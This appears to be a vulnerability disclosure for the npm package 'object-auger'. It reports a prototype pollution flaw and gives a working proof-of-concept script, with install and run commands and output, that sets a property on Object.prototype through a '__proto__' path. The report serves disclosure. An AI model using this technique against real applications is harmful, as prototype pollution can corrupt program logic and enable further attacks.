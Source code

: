 # Description

`object-auger` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objectAuger = require("object-auger")
var obj = {}
console.log("Before : " + {}.polluted);
objectAuger.set(obj,["__proto__","polluted"],"Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i object-auger # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
